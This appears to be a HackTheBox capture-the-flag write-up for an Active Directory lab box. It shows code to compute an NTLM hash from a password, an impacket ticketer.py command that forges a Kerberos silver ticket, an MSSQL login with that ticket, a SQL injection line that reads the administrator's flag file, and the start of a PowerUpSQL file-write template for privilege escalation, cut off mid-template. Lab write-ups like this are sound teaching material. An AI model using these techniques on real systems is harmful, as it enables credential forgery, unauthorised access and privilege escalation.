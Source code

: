 #### Python script to generate NTLM hash from the plain text password
```python
import hashlib
hashlib.new('md4', 'REGGIE1234ronnie'.encode('utf-16le'))
hashlib.new('md4', 'REGGIE1234ronnie'.encode('utf-16le')).digest()
hashlib.new('md4', 'REGGIE1234ronnie'.encode('utf-16le')).digest().hex()
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526235439.png]]

Get the domain SID 
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526235638.png]]

#### Use *ticketer.py* to generate silver ticket

```
ticketer.py -nthash <NT HASH OF SQL SVC ACCT> -d domain-sid <DOMAIN SID> -domain sequel.htb -spn TotesLegit/dc.sequel.htb administrator
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250527000048.png]]

#### Use mssqlclient.py and the silver ticket to login 

```
KRB5CCNAME=administrator.ccache -k mssqlclient.py administrator@dc.sequel.htb
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250527000452.png]]
- this logs us in as sql svc user 

Use [lil cheat sheet for MSSQL SQL Injection ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)to read root.txt

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250527001022.png]]

```sql
select x from OpenRowset(BULK 'C:\users\administrator\desktop\root.txt',SINGLE_CLOB) R(x)),null,null
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250527001151.png]]

Then use some [EoP - Privileged File Write](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#eop---privileged-file-write) to escalate privileges
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250527001424.png]]

#### PowerUpSQL to write a file 
- GitHub File -> [writefile_bulkinsert.sql](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/writefile_bulkinsert.sql)

```sql
-- author: antti rantassari, 2017
-- Description: Copy file contents to another file via local, unc, or webdav path
-- summary = file contains varchar data, field is an int, throws casting error on read, set error output to file, tada!
-- requires sysadmin or bulk insert privs

create table #errortable (ignore int)

bulk insert #errortable
from '\\localhost\c$\windows\win.ini' -- or  'c:\windows\system32\win.ni' -- or \\hostanme@SSL\folder\file.ini' 
with
(
```